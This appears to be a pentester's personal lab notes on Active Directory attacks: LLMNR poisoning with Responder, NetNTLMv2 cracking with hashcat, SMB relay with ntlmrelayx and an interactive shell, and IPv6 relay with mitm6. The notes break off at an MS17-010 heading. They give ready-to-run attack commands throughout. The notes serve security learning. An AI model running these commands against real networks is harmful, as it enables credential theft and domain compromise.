 ## https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
## https://github.com/danielmiessler/SecLists/tree/master/Passwords
## https://github.com/SecureAuthCorp/impacket
## https://github.com/dirkjanm/mitm6

1 Netbios && LLMNR Name poisoning\
2 Relay attacks\
3 MS17-010\
4 kerberoasting\
5 mitm6\

I LLMNR (link local multicasting name resolution:: basically DNS) Poisoning
       + needs lot of traffic - before nmap/nessus scans
    responder: python /usr/share/responder/Responder.py -L eth0 -rdwv
       + try to access attacker IP address. see ![llmnr_poison](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\admin_malz_llmnr_poison.png)
         +  hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt
            ## -m 5600 module for NetNTLMv2

II SMB Relay attacks:
        Requirements:: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
        setup ntlmrelay see ![ntlmrelay.py](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\ntlmrelay_py.png) 
   Finding which have smb enabled:
        nessus or nmap:: nmap --script=smb2-security-mode.nse -p445 192.168.86.0/24
            Nmap scan report for oxytocin-dc.lan (192.168.86.205)  (**DC**)
            PORT    STATE SERVICE
            445/tcp open  microsoft-ds
            Host script results:
            | smb2-security-mode:
            |   2.02:
            |_    Message signing enabled and required
   python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) ## "python3 -m pip install ." "-i interactive shell"
        ::TODO::
        :: Working but keeps failing:: see ![revmalz](Screenshots/revshell_smb_malz.png) && ![break](Screenshots/malz_smb_breaking.png)
        ::For shells W/ creds: ![shells](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\meterpreter_psexec_shells.png)
        ::wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy

IPv6 Attacks: DNS relay
    ##requirements, must add certificate in DC
        manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs
       + sudo python3 mitm6.py -d carbon.local
       + sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme
       + see ![IPv6_relay](E:\Users\Carl\Documents\Notes\Ethical\Screenshots\relay_ipv6.png)
III MS17-010